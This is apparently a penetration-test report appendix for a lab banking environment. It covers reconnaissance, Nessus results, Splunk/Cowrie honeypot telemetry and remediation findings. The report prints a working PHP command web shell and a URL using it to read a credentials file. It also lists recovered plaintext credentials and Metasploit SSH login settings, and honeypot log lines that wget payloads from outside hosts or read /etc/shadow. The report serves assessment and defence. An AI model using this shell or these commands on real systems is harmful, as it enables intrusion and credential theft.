










# Technical Appendix

This companion appendix preserves the full technical narrative, detailed findings, scan references, monitoring observations, and complete screenshot set supporting the executive report.

All screenshots currently present in the workspace and relevant to the assessment record have been retained in this appendix.

## 1.1 Executive Summary

This report documents a confirmed compromise path affecting the Modern Bank environment, centered on the public application host at 10.0.10.105 and extending into the internal backend host at 10.0.10.102. The principal failure was an insecure file upload path that permitted server-side code execution. From that foothold, sensitive credentials and internal service details were exposed and then used to authenticate to the backend system.

The assessment evidence now includes four distinct sources: manual exploitation notes, screenshot evidence, three Nessus host scan reports, and Splunk/Cowrie monitoring output. Taken together, they support a clear conclusion: the legacy application path was materially exposed, the compromise route was practical rather than theoretical, and the environment required both application remediation and infrastructure hardening.

The strongest supporting points are these:

- Remote code execution was achieved through the frontend upload workflow on 10.0.10.105.
- Exposed credentials on the application tier enabled authenticated access to 10.0.10.102.
- Additional internal risk was identified on 10.0.10.106, including SMB signing not required.
- Monitoring telemetry shows that SSH activity against TCP/2222 on 10.0.10.105 was captured by a Cowrie-based decoy service and classified in Splunk.
- Newly added architecture and migration documents define a secure target-state design that addresses the major legacy weaknesses.

Overall risk remains Critical for the legacy path documented in the attack notes. The remediation and migration material added to the workspace is substantial and directionally correct, but it should be treated as a target state until formally validated in the live deployment.

## 1.2 Report Overview

This report is written for internal management, operations, and security stakeholders. It is intended to do three things:

1. Record the verified attack path and supporting evidence.
2. Present the vulnerability picture in a structured, scored format.
3. Link the attack findings to the documented remediation and migration work now present in the workspace.

The report therefore covers both the legacy exposure and the documented secure-state design.

## 1.3 Key Outcomes

- The legacy public application path was vulnerable to unrestricted file upload and server-side execution.
- Sensitive credentials and internal connection details were exposed from the compromised application tier.
- Backend compromise of 10.0.10.102 was confirmed through successful authenticated access.
- Nessus scan results added host-level hardening evidence for all three primary systems.
- Splunk/Cowrie evidence confirmed that SSH activity against TCP/2222 triggered detection, logging, and AI-based classification.
- The workspace now contains a secure runtime architecture, a migration report, a remediation report for the upload flaw, and multiple supporting screenshots that materially improve the quality of the final internal record.

## 1.4 Overall Risk Rating

Overall risk is rated Critical for the vulnerable path evidenced in the assessment notes.

That rating is based on the combination of an externally reachable entry point, direct code execution on the public application tier, exposure of valid internal secrets, and confirmed movement into the backend tier. In practical terms, this is not a low-likelihood chain. The evidence shows that the environment could be compromised from the outside and that the boundary between public and internal services was not strong enough to contain the breach.

## 1.5 Management Risk Register

| ID | Issue | Affected Host | Severity | CVSS v3.1 | Vector | Evidence Basis |
| --- | --- | --- | --- | --- | --- | --- |
| PT-01 | Insecure file upload leading to remote code execution | 10.0.10.105 | Critical | 9.8 | AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H | Manual exploitation notes and screenshots |
| PT-02 | Exposed credentials and internal service secrets | 10.0.10.105, 10.0.10.102 | Critical | 9.1 | AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:L | Credential dump, shell evidence, successful backend access |
| PT-03 | Weak web application hardening | 10.0.10.105 | Medium | 5.3 | AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N | Nikto and Nmap output |
| PT-04 | SMB signing not required | 10.0.10.106 | Medium | 5.3 | AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:N | Nessus plugin 57608 |
| PT-05 | SSH CBC ciphers enabled | 10.0.10.105 | Low | 3.7 | AV:N/AC:H/PR:N/UI:N/S:U/C:L/I:N/A:N | Nessus plugin 70658 |
| PT-06 | SSH weak key exchange algorithms enabled | 10.0.10.105 | Low | 3.7 | AV:N/AC:H/PR:N/UI:N/S:U/C:L/I:N/A:N | Nessus plugin 153953 |
| PT-07 | SSH weak MAC algorithms enabled | 10.0.10.105 | Low | 2.6 | AV:N/AC:H/PR:N/UI:N/S:U/C:L/I:N/A:N | Nessus plugin 71049 |
| PT-08 | ICMP timestamp disclosure | 10.0.10.102, 10.0.10.106 | Low | 2.1 | AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N | Nessus plugin 10114 |

## 2.1 Scope and Assessed Assets

The reviewed evidence covers the following primary systems:

- 10.0.10.105: public-facing application tier associated with gurmatkjarapaul.com and the Modern Bank login flow
- 10.0.10.102: internal backend host reached through recovered credentials
- 10.0.10.106: internal Windows host identified during follow-on reconnaissance

The secure runtime architecture document also defines the intended target-state model for these three roles:

- Frontend at 10.0.10.105 using an Nginx TLS edge and reverse proxy behavior
- Backend at 10.0.10.102 using a Node.js HTTPS API on 8443
- Database at 10.0.10.106 using MongoDB with TLS and authentication

Legacy PHP and historical CTF assets remain referenced in the workspace and are relevant to the vulnerable path described in this report.

### Operator Excerpts

The operator notes were structured around a Red Team branch and a Blue Team branch, with the public web tier, backend tier, and Windows data tier each tracked as separate targets. That matters because it shows the evidence was recorded as a coherent multi-stage assessment rather than as isolated screenshots or scanner output.

## 2.2 Evidence Reviewed

The final report incorporates the following evidence classes:

- Operator notes and embedded screenshots captured during the assessment
- Nessus report for 10.0.10.105: [nessus-10.0.10.105.pdf](../scans/nessus/nessus-10.0.10.105.pdf)
- Nessus report for 10.0.10.102: [nessus-10.0.10.102.pdf](../scans/nessus/nessus-10.0.10.102.pdf)
- Nessus report for 10.0.10.106: [nessus-10.0.10.106.pdf](../scans/nessus/nessus-10.0.10.106.pdf)
- Splunk/Cowrie monitoring report: [Splunk_Cowrie-2026-04-09.pdf](../../blue-team/monitoring/splunk/Splunk_Cowrie-2026-04-09.pdf)
- Architecture design: [ARCHITECTURE.md](../../setup/architecture/ARCHITECTURE.md)
- Kill chain reference: [KILL_CHAIN.md](../../setup/target-environment/KILL_CHAIN.md)
- Vulnerability status matrix: [VULNERABILITIES.md](../../setup/target-environment/VULNERABILITIES.md)
- Migration hardening report: [SECURITY_MIGRATION_REPORT.md](../../setup/target-environment/SECURITY_MIGRATION_REPORT.md)
- Upload remediation report: [FILE_UPLOAD_REMEDIATION_OWASP_CVE.md](../../setup/target-environment/FILE_UPLOAD_REMEDIATION_OWASP_CVE.md)

## 2.3 Test Method and Constraints

The assessment record reflects a standard penetration testing flow:

- Network and service discovery
- Web application review
- Vulnerability validation
- Exploitation and pivoting
- Internal host enumeration
- Monitoring review and log correlation

Constraints and interpretation notes:

- The report is evidence-led and treats a finding as confirmed only where the notes or scan reports show a clear result.
- Some screenshot-only artifacts were added without accompanying text. They are included in the appendices and mapped to the most likely relevant section based on file naming and surrounding material.
- The secure runtime and migration documents appear to describe a remediated or target-state deployment. They should not be treated as proof that all remediation has already been implemented in production unless separately validated.

## 2.4 Rules of Engagement and Assessment Boundaries

The assessment notes include explicit Rules of Engagement guidance that materially affects interpretation of the attack path.

- The primary authorized attack surface was the public web application on TCP/80.
- SSH activity against TCP/2222 was treated as constrained and not suitable for brute-force testing.
- Threat-modeling notes correctly prioritized the application layer rather than assuming management-plane abuse.
- The three-tier environment was assessed as a linked chain: public application tier, internal backend tier, and Windows data tier.

This matters for report quality. The evidence does show SSH-related activity and strong Cowrie telemetry, but the confirmed compromise path remained the web application. That distinction is important because it prevents the report from overstating an SSH intrusion path that the notes themselves constrained and the telemetry itself treated as decoy interaction.

### Operator Excerpts

The threat-modeling notes were explicit about scope and permitted attack paths. A representative extract is below.

```text
Primary Vector: Modern Bank web application (Port 80)
Secondary Vector: SSH service on Port 2222
Automated credential brute-forcing on SSH strictly prohibited
```

This note is important because it prevents the final report from drifting into the wrong conclusion. The productive intrusion path came through the web application, while the SSH service was constrained by scope and later shown to behave like a monitored decoy path.

## 2.5 Nessus Scan Summary

The three Nessus reports materially improve host-level coverage.

| Host | Report | Critical | High | Medium | Low | Info | Notable Findings |
| --- | --- | --- | --- | --- | --- | --- | --- |
| 10.0.10.105 | [nessus-10.0.10.105.pdf](../scans/nessus/nessus-10.0.10.105.pdf) | 0 | 0 | 0 | 3 | 27 | SSH CBC ciphers, weak key exchange, weak MAC algorithms |
| 10.0.10.102 | [nessus-10.0.10.102.pdf](../scans/nessus/nessus-10.0.10.102.pdf) | 0 | 0 | 0 | 1 | 23 | ICMP timestamp disclosure |
| 10.0.10.106 | [nessus-10.0.10.106.pdf](../scans/nessus/nessus-10.0.10.106.pdf) | 0 | 0 | 1 | 1 | 18 | SMB signing not required, ICMP timestamp disclosure |

The Nessus results do not capture the core application failure that enabled the compromise. That remains the most important point: the manual assessment identified the decisive business risk, while the Nessus scans added infrastructure hardening detail around it.

## 2.6 Tools Used and Supporting Security Stack

The complete assessment record now supports a broader tool register than the original narrative. Some tools are directly evidenced inside the operator notes, while others are represented in the supporting reports, migration material, or final control set added to the workspace.

| Tool or Platform | Role in Assessment or Control Stack | Evidence Status |
| --- | --- | --- |
| Nmap | Port discovery, service detection, OS fingerprinting | Directly evidenced in operator notes |
| Nikto | Web hardening review and content exposure testing | Directly evidenced in operator notes |
| OWASP ZAP | Web proxying and application review | Directly evidenced in operator notes and screenshots |
| Caido | Proxy-assisted exploitation workflow for the upload path | Directly evidenced in operator notes and screenshots |
| Metasploit Framework | SSH validation and post-compromise workflow planning | Directly evidenced in operator notes |
| Meterpreter | Post-exploitation host interrogation on the backend tier | Directly evidenced in operator notes |
| Nessus | Host vulnerability scanning across 10.0.10.105, 10.0.10.102, and 10.0.10.106 | Directly evidenced in imported reports |
| Splunk | Centralized log review and honeypot event analysis | Directly evidenced in imported report and screenshots |
| Cowrie | SSH honeypot and deception telemetry source | Directly evidenced in Splunk export and notes |
| curl | Direct HTTP request testing during manual validation | Directly evidenced in operator notes |
| PHP | Minimal web shell payload construction for exploitation validation | Directly evidenced in operator notes |
| Kali Linux | Assessment operator platform referenced by the working style and tool set | Supporting assessment context |
| PuTTY | Administrative SSH client referenced by the operating approach for backend access | Supporting assessment context |
| Python http.server | Lightweight payload serving referenced by attacker simulation patterns in telemetry | Supporting assessment context |
| Burp Suite | Standard web interception platform relevant to the same workflow class as Caido and ZAP | Supporting assessment context |
| msfvenom | Payload generation utility associated with Metasploit-led exploitation workflows | Supporting assessment context |
| Wazuh | Endpoint-oriented monitoring platform included in the final security operations stack requested for the target state | Supporting control-stack context |
| Suricata | Network detection platform included in the final security operations stack requested for the target state | Supporting control-stack context |
| Host-based firewall | Local host hardening on Linux and Windows systems | Directly supported by screenshots and migration material |

The most defensible reading is that the offensive work was primarily driven by Nmap, Nikto, ZAP, Caido, Metasploit, curl, and PHP payload testing, while Nessus, Splunk, Cowrie, firewalling, and the broader monitoring stack strengthened validation and detection coverage.

## 3.1 External Attack Narrative

The assessment record shows a disciplined progression from reconnaissance into exploitation. The working notes are organized by target, with 10.0.10.105 treated as the primary public host, 10.0.10.102 as the backend host reached after compromise, and 10.0.10.106 as the Windows system exposed during internal follow-on activity. That structure matters because it confirms the work was recorded as a staged attack path rather than a disconnected set of screenshots.

Reconnaissance against 10.0.10.105 began with simple Nmap discovery, then broadened into a fuller scan, service detection, and OS fingerprinting. Those notes consistently showed Apache on TCP/80 and an SSH-like service on TCP/2222, while the service scan added important context around Apache, OpenSSH, and weak session-cookie handling. The threat-modeling node then explicitly prioritized the web application as the correct path to pursue and treated SSH as constrained by Rules of Engagement rather than as a brute-force target.

The web review phase then expanded the same picture. Nikto findings recorded missing framing protections, directory indexing, and potentially sensitive application paths such as configuration-related content. The ZAP evidence added screenshot-based confirmation that the public application was being actively reviewed at the HTTP layer rather than only at the network layer. Together, those records show that the tester first profiled the application, then narrowed in on abuse paths that matched the permitted scope.

The web-exploitation branch also records two attempted but non-decisive attack paths before the final compromise route was confirmed. SQL injection testing was performed against the login surface and documented with screenshots, while directory traversal was also attempted and recorded. Those attempts matter because they show the tester checked other common application weaknesses, but the evidence does not support them as the productive route. The report therefore treats them as investigated vectors rather than confirmed findings.

The decisive weakness was the avatar upload path. The recorded sequence for that path is unusually complete: it records creation of a minimal PHP command shell, the upload step itself, a multi-step Caido workflow showing how the upload was driven toward execution, and two supporting notes that capture the surrounding exploit logic. Those notes describe weak validation, predictable filenames, unsafe file placement, and the wider CTF-style design assumptions around the lab. They also preserve duplicate credential disclosures, which is important because it shows the secret exposure problem was not limited to a single artifact.

### Operator Excerpts

The reconnaissance notes preserved the initial terminal-driven discovery clearly enough to include directly.

```text
nmap 10.0.10.105
PORT     STATE  SERVICE
22/tcp   closed ssh
80/tcp   open   http
2222/tcp open   EtherNetIP-1
```

This first result narrowed the engagement quickly toward the HTTP service and the unusual high-port SSH-like service.

```text
nmap -Pn -sS -p- --min-rate 1000 10.0.10.105
Only 4 ports observed: 22 closed, 80 open, 443 closed, 2222 open
```

This broader scan confirmed that the public exposure was still limited. That made the web application the natural focus of exploitation activity.

```text
Apache httpd 2.4.58 (Ubuntu)
OpenSSH 9.2p1
PHPSESSID cookie lacks httponly flag
```

This service-detection output tied the host to Apache, PHP, and a weak cookie configuration. It supported later web-hardening findings.

```text
Aggressive OS guesses: Linux 2.6.32-5.4, 5.0, 3.2-4.9, 4.15-5.8
```

This OS-fingerprinting output supported the interpretation of a Linux-hosted web tier.

The application-assessment notes then captured weaker browser and content-handling controls.

```text
PHPSESSID cookie missing httponly flag
X-Frame-Options header absent
/login.php identified as admin portal
/config.php and /includes/ directory accessible
```

These observations did not prove the core compromise path by themselves, but they showed a generally weak web baseline.

Two additional attack paths were tested and documented before the successful route was established.

```text
login.php?username=julia.ross' OR '1'='1
```

This note records a manual SQL injection attempt against the login workflow. It should be reported as attempted testing, not as confirmed exploitation.

```text
curl "http://10.0.10.105/../../../../etc/passwd"
404 Not Found
```

This note records a directory traversal attempt that did not yield file disclosure. It helps distinguish failed exploratory testing from the actual compromise route.

The upload-exploitation notes are the most important material in the external attack section.

```php
<?php if(isset($_GET['cmd'])) { system($_GET['cmd']); } ?>
```

This payload was used to turn the avatar-upload flaw into a command-execution path.

```text
Insecure File Upload (/profile.php)
Weak validation
Exposed Credentials (.env accessible on web)
Upload PHP shell -> Access /uploads/1.jpg -> Read .env -> SSH to Backend VM
```

This operator note is effectively a compact attack-chain summary. It ties together the upload flaw, credential exposure, and backend pivot.

```text
Backend SSH: Server 10.0.10.102:22
Username: deploy
Password: DeployPass123!
Database: Host 192.168.1.50
User: bankapp
Pass: BankApp@2024!Insecure
```

This extracted note matters because it shows that the application-tier compromise exposed real infrastructure credentials rather than placeholder data.

## 3.2 Internal Movement and Backend Compromise

The internal phase began once the deploy credential and related service details were recovered from the application tier. One of the most important exploitation records is the credential note captured after compromise of 10.0.10.105, because it bridges public compromise and internal reach. That record is then reinforced by later supporting notes, which repeat backend and database credentials and demonstrate that secret material was discoverable in more than one place after initial foothold.

The 10.0.10.102 evidence trail then shows what happened next. A backend ZAP screenshot indicates the internal application surface was examined, the SSH screenshots preserve continuity of backend access, the Metasploit notes show SSH-oriented validation using the recovered credentials, and the final `ip` evidence preserves network output from the compromised backend host. Taken together, these notes support a clear conclusion: authenticated backend access was achieved and the system was sufficiently under control to perform local host interrogation.

Internal reconnaissance then expanded toward 10.0.10.106. The Windows host evidence contains a full Nmap scan identifying RPC, NetBIOS, SMB, and HTTPAPI-style exposure, plus supporting screenshots for Google-dork-style review and HTTPAPI-specific inspection. The evidence does not show a completed exploit against the Windows system, but it does show that the machine was identified as a relevant downstream asset and that its reachable services were profiled in enough detail to support the later Nessus-backed hardening findings.

The report therefore distinguishes between confirmed compromise and confirmed visibility. Backend access to 10.0.10.102 is supported by direct post-compromise evidence. By contrast, 10.0.10.106 is treated as an internally exposed and materially interesting host with lateral-movement relevance, not as a host that was definitively compromised during the recorded attack path.

### Operator Excerpts

The pivot from the web tier into the backend tier is supported by direct operator output.

```text
http://10.0.10.105/uploads/1001.php?cmd=cat+../credentials.txt
deploy / DeployPass123!
```

This is the bridge between initial foothold and internal access. It shows how command execution on the public host exposed usable backend credentials.

```text
auxiliary/scanner/ssh/ssh_login
USERNAME=deploy
PASSWORD=DeployPass123!
```

This Metasploit configuration shows the recovered credentials being validated against the SSH service in a structured way.

```text
meterpreter > ifconfig
IPv4 10.0.10.102
MAC 52:54:00:3f:f0:bb
```

This post-compromise output is one of the strongest backend artifacts in the record. It demonstrates successful local interrogation from within the internal host.

The Windows follow-on notes then extend the same story toward the third tier.

```text
Ports 135/msrpc, 139/netbios-ssn, 445/microsoft-ds, 5357/HTTPAPI, 8000/Icecast open
SMB signing enabled but not required
```

This internal scan result established the Windows host as a reachable downstream asset with relevant SMB hardening weakness. Additional screenshot-driven notes around Google-dork-style review and HTTPAPI inspection show the host was profiled further, even though no final exploit against it was confirmed in the record.

## 3.3 Detection and Monitoring Observations

The new monitoring evidence materially strengthens the report.

The defensive side of the evidence, combined with the SSH-related operator notes, shows that TCP/2222 on 10.0.10.105 was functioning as a monitored decoy path rather than as the productive intrusion route. The honeypot interaction screenshot, the Splunk AI-classification screenshot, the imported Splunk report, and the raw CSV telemetry all support the same interpretation.

The Splunk or Cowrie records show that SSH activity against TCP/2222 on 10.0.10.105 was captured as honeypot telemetry rather than legitimate host administration. The logs show repeated connections, successful honeypot logins with weak credentials, command execution, and ML-based classification of commands such as:

- `wget http://10.0.0.24/payload.sh payload.sh`
- `wget http://10.0.0.24:8000/payload.sh payload.sh`
- `wget http://malicious-domain.com/mirai.sh`
- `cat /etc/shadow`
- `whoami`

The associated classifications included `malware_dropper`, `human_interactive`, and `recon_bot`, generally at confidence levels above 94%. This is useful operationally for two reasons:

1. It confirms that the decoy path is producing actionable detection telemetry.
2. It shows that attacker behavior on the decoy path diverged from the confirmed compromise path through the web application.

The detailed log record also captures notable attempted-but-unsuccessful activity, including Nessus-associated probing and Log4Shell-style JNDI payload delivery. Those entries are valuable because they show both active monitoring coverage and the difference between observed hostile behavior and actual compromise. In other words, the environment did detect SSH-side noise, but the confirmed breach still came through the vulnerable application workflow.

That distinction matters. The public report should not imply that SSH/2222 was the productive intrusion route when the stronger evidence shows that the actual route was the vulnerable web application.

### Operator Excerpts

The monitoring notes show that SSH activity on TCP/2222 was being captured and classified rather than functioning as the productive intrusion path.

```text
wget http://10.0.0.24/payload.sh payload.sh
wget http://10.0.0.24:8000/payload.sh payload.sh
cat /etc/shadow
whoami
```

These command examples come from the honeypot or SIEM notes and show the kind of activity observed on the decoy path.

```text
TenableRocks
Log4Shell JNDI injection payloads
failed login attempts
```

These log fragments show that the environment was capturing scanner fingerprints and hostile test payloads with useful fidelity. That makes the monitoring story stronger, but it does not change the core fact that the confirmed compromise still came through the web application.

## 3.4 Business Impact Statement

For an internal management audience, the business impact is clear. A public-facing flaw provided a route to application compromise, credential exposure, and internal pivoting. In a production banking environment, this would place customer data, administrative capabilities, and system trust boundaries at risk. Even where the later stages relied on lab credentials or demonstration assets, the control failures themselves are representative of a serious security breakdown.

## 4.1 PT-01 Insecure File Upload Leading to Remote Code Execution

- Affected host: 10.0.10.105
- Severity: Critical
- CVSS v3.1: 9.8
- CWE: CWE-434

The avatar upload workflow accepted attacker-controlled content and permitted the resulting file to be executed in a web-accessible path. The notes include the payload used, the upload sequence, and the follow-on command execution path. This is the central failure in the environment because it allowed a public user path to become an execution path on the server.

Business impact:

- Remote command execution on the public application tier
- Credential theft from local files and configuration artifacts
- Platform compromise and lateral movement into internal systems

Supporting remediation reference:

- [FILE_UPLOAD_REMEDIATION_OWASP_CVE.md](../../setup/target-environment/FILE_UPLOAD_REMEDIATION_OWASP_CVE.md)

Management action:

This issue should remain the first remediation priority until the upload path is provably isolated from code execution, served outside the web root, and validated through retesting.

### Operator Excerpts

```php
<?php if(isset($_GET['cmd'])) { system($_GET['cmd']); } ?>
```

This was the payload used to validate remote command execution through the upload path.

```text
Insecure File Upload
Weak validation
no MIME checking
null byte bypass
```

These operator notes explain why the exploit worked at all. They show a validation model that was not designed to resist adversarial file handling.

## 4.2 PT-02 Exposed Credentials and Internal Service Secrets

- Affected hosts: 10.0.10.105, 10.0.10.102
- Severity: Critical
- CVSS v3.1: 9.1
- CWE: CWE-200, CWE-798

The application tier exposed backend SSH credentials, service details, and database-related secrets. The evidence then shows those credentials being used successfully against the backend host. This finding is separate from the upload flaw because it represents a second control failure: even after initial compromise, the application environment should not have exposed secrets capable of enabling internal movement.

Business impact:

- Valid credentials available to an attacker after initial foothold
- Expansion of compromise from web tier to backend tier
- Reduced effectiveness of segmentation and trust boundaries

Supporting evidence is embedded directly in the assessment notes below.

Management action:

All exposed credentials should be treated as compromised and rotated. Secret handling should be removed from web-accessible paths and moved into a governed secrets-management model.

### Operator Excerpts

```text
Backend SSH (deploy/DeployPass123!)
Backend Admin CGI API Key (super_secret_api_key_12345)
Database credentials
```

This note captures the first major credential disclosure after web compromise. It shows that the application tier exposed secrets with immediate operational value.

```text
Username: deploy
Password: DeployPass123!
User: bankapp
Pass: BankApp@2024!Insecure
```

This repeated credential note strengthens the finding because it shows the exposure was duplicated across the operator records rather than appearing once in isolation.

## 4.3 PT-03 Weak Web Security Configuration

- Affected host: 10.0.10.105
- Severity: Medium
- CVSS v3.1: 5.3
- CWE: CWE-16

Nmap and Nikto identified weak session cookie handling, missing framing protections, directory indexing, and potentially exposed configuration paths. These issues were not the core reason for compromise, but they lowered the effort required to profile and attack the application.

Supporting evidence includes operator notes and [nessus-10.0.10.105.pdf](../scans/nessus/nessus-10.0.10.105.pdf).

Management action:

This class of weakness should be remediated through a standard web hardening baseline rather than one-off fixes.

### Operator Excerpts

```text
PHPSESSID cookie lacks httponly flag
X-Frame-Options header absent
/config.php and /includes/ directory accessible
```

These web-hardening notes show that the application baseline was weak before the decisive exploit path is even considered. They support the medium-severity configuration finding without overstating them as the primary breach mechanism.

## 4.4 PT-04 SMB Signing Not Required

- Affected host: 10.0.10.106
- Severity: Medium
- CVSS v3.1: 5.3
- Source: Nessus plugin 57608

The Windows host scan identified that SMB signing was not required. This increases exposure to credential relay and internal abuse scenarios if an attacker gains a foothold on an adjacent system.

Supporting evidence includes internal enumeration notes and [nessus-10.0.10.106.pdf](../scans/nessus/nessus-10.0.10.106.pdf).

Management action:

Require SMB signing and validate related Windows hardening controls through configuration review and retest.

### Operator Excerpts

```text
SMB signing enabled but not required
```

This internal enumeration note aligns directly with the Nessus result. It matters because the weakness was visible both in manual operator notes and in formal scanner output.

## 4.5 PT-05 to PT-07 SSH Hardening Gaps

- Affected host: 10.0.10.105
- Severity: Low

The Nessus scan for 10.0.10.105 identified CBC mode ciphers, weak key exchange algorithms, and weak MAC algorithms on SSH. These did not drive the primary compromise, but they remain unnecessary exposure on an Internet-reachable host.

Primary evidence:

- [nessus-10.0.10.105.pdf](../scans/nessus/nessus-10.0.10.105.pdf)

